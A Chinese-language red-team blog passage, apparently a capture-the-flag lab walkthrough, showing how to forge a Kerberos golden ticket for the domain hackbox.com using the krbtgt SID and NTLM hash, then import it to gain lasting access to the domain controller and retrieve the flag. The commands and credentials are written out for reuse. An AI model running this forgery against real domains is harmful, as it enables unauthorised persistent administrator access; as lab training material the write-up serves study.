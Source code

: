 还有一种方法获取 sid：

```
域名：hackbox.com
域用户：web
krbtgt的sid：S-1-5-21-2005268815-658469957-1189185684-502
krbtgt的ntlm-hash：6f60ace6accbcb76078ccc0312174e98
```

由于我们是系统权限，我们需要切换到域管到权限才能执行下面的命令：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPia2buVhicviba6cpeEecQ574r5na8YLHDucvd52zZch2GKCTBh3s3s9TIQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiadxapt15Fhtc1mwYk6nrHtJRUslFbQ0KCDVJvWEiazGxPV4UEnyuAm2g/640?wx_fmt=png)

之后就可以制作黄金票据了：

```
golden\_ticket\_create -d hackbox.com -u web -s S-1-5-21-2005268815-658469957-1189185684 -k 6f60ace6accbcb76078ccc0312174e98 -t /root/krbtgt.ticket
-k  ntlm-hash
-s  krbtgt的sid
-t  导出票据的目录
 sid后面的502不需要写在命令里
```

使用命令导出票据：

```
kerberos\_ticket\_use /root/krbtgt.ticket
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaAzTghtWwz8qHPMmvCJRMsicsGp7CJVgJpejb5o3hicCknKUhLhSq6LuQ/640?wx_fmt=png)

拿到票据之后我们先切换到 web 的 session，可以看到我们现在是无法访问到 dc 的:

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiapRZVrtfBhfGnID0jibCOUDd8qn5CnXHHibG8wMHG2j6W1XlBQgfibLFJQ/640?wx_fmt=png)

我们接下来就可以导入黄金票据：

```
kerberos\_ticket\_use /root/krbtgt.ticket
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPiaU3nyDJOEYNpdN2jSuzGiaB94NdKg6kIhpEsODS8WJWS7zV4Hh5L2icGw/640?wx_fmt=png)

这个时候我们就可以一直访问得到 dc 了：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPia58dUOjSFVPWlmaCq6Tj0MI0icGHnCQgCoehnxX75YzFGa5iaKchHtX0w/640?wx_fmt=png)

最终在域控下拿到了 flag：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/dzeEUCA16LI8AFrtTO95UQoMGAO7ctPia58dUOjSFVPWlmaCq6Tj0MI0icGHnCQgCoehnxX75YzFGa5iaKchHtX0w/640?wx_fmt=png)

* * *

渗透攻击红队 发起了一个读者讨论 你学到东西了吗？ 精选讨论内容
